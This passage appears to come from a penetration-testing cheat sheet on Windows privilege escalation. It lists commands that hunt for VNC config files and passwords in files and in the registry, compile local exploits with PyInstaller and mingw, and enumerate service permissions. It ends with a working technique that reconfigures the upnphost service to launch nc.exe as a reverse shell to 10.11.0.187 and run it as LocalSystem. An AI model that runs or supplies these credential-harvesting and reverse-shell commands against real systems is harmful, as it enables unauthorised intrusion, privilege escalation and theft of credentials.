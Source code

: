         dir c:\*vnc.ini /s /b /c
        dir c:\*ultravnc.ini /s /b /c
        dir c:\ /s /b /c | findstr /si *vnc.ini
        findstr /si password *.txt *.xml *.ini
        reg query HKLM /f password /t REG_SZ /s
        reg query HKCU /f password /t REG_SZ /s
        reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
        reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
        ```

    * metasploit's getsystem

    * PyInstaller (python script to standalone binary)
        ```
        python pyinstaller.py --onefile ms11-080.py
        ```

    * Crosscompiling from linux - mingw
        ```
        mingw-w64
        i686-w64-mingw32-gcc 646.c -o 646.exe -lws2_32
        ```

    * Services
        * list
            ```
            net start
            sc queryex type= service state= all | find /i "NATION"
            ```
        * Folder permissions (service's binary replace etc.)
            ```
            icacls path-to-exe
            ```

        * Services permissions
            ```
            # download: https://docs.microsoft.com/pl-pl/sysinternals/downloads/sysinternals-suite
            # list user's obejcts
                accesschk.exe /accepteula -uwcqv "Authenticated Users" *
                accesschk.exe /accepteula -ucqv upnphost # or SSDPSRV

            # universal WinXP SP0/SP1 PE
                 sc config upnphost binpath= "C:\Documents and Settings\IWAM_BOB\Desktop\tmp\nc.exe -nv 10.11.0.187 9988 -e C:\WINDOWS\System32\cmd.exe"
                 sc config upnphost obj= ".\LocalSystem" password= ""
                 sc qc upnphost
                 net start upnphost

